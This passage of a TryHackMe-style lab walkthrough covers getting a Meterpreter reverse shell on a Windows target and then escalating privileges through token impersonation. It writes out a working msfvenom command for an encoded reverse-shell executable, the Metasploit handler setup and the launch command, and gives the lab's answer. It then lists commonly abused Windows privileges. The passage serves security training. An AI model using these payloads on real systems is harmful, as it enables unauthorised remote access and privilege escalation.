 Before running this program, ensure the handler is set up in Metasploit:<br><br>

> <strong>use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run</strong>

This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell<br><br>

> <strong>Start-Process "shell-name.exe"</strong>

This should spawn a meterpreter shell for you!</p>

<p><br></p>


> 2.1 - <em>What is the final size of the exe payload that you generated?</em><br>
>> <strong>73802</strong><br>
>> <code>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe</code>
![image](https://github.com/user-attachments/assets/96599c2e-c0c5-4f8c-af6d-49892287c40d)

<p><br></p>

<p><h2>Task 3 - Privilege Escalation</h2>
Now that we have initial access, let's use token impersonation to gain system access.<br><br>
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).</p><br><br>

This access token consists of:<br>
- User SIDs(security identifier)<br>
- Group SIDs<br>
- Privileges<br>

<p>Amongst other things. More detailed information can be found here.<br><br>

There are two types of access tokens:<br>
- Primary access tokens: those associated with a user account that are generated on log on<br>
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process <br><br>

For an impersonation token, there are different levels:<br>
- SecurityAnonymous: current user/client cannot impersonate another user/client<br>
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client<br>
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system<br>
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system<br><br>

Where the security context is a data structure that contains users' relevant security information.<br><br>

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:<br>
- SeImpersonatePrivilege<br>
- SeAssignPrimaryPrivilege<br>
- SeTcbPrivilege<br>
- SeBackupPrivilege<br>
- SeRestorePrivilege<br>
- SeCreateTokenPrivilege<br>
- SeLoadDriverPrivilege<br>
- SeTakeOwnershipPrivilege<br>
- SeDebugPrivilege<br><br>
